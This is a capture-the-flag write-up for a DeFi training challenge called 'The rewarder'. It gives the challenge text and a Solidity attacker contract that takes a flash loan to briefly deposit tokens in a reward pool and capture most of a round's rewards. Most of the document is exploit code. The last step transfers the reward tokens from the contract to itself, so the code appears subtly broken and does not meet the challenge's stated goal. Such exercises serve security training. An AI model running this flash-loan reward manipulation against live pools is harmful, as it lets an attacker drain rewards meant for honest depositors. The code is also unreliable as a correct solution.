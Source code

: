 # Challenge #5 - The rewarder

There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

# Solution

```
contract Attacker {
    FlashLoanerPool public flashLoanerPool;
    DamnValuableToken public damnToken;
    TheRewarderPool public rewarderPool;
    RewardToken public rewarderToken;

    constructor(
        address _flashLoaner,
        address _damnValuableToken,
        address _rewarderPool,
        address _rewardToken
    ) {
        flashLoanerPool = FlashLoanerPool(_flashLoaner);
        damnToken = DamnValuableToken(_damnValuableToken);
        rewarderPool = TheRewarderPool(_rewarderPool);
        rewarderToken = RewardToken(_rewardToken);
    }

    function getTokens(uint256 amount) public {
        //get free tokens
        flashLoanerPool.flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) public {
        //transfer token to rewardpool
        damnToken.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);

        rewarderPool.withdraw(amount);
        //transfer tokens back to lending pool
        damnToken.transfer(msg.sender, amount);
        // get rewarder tokens
        rewarderToken.transfer(
            address(this),
            rewarderToken.balanceOf(address(this))
        );
    }

    fallback() external payable {}

    receive() external payable {}
}

```

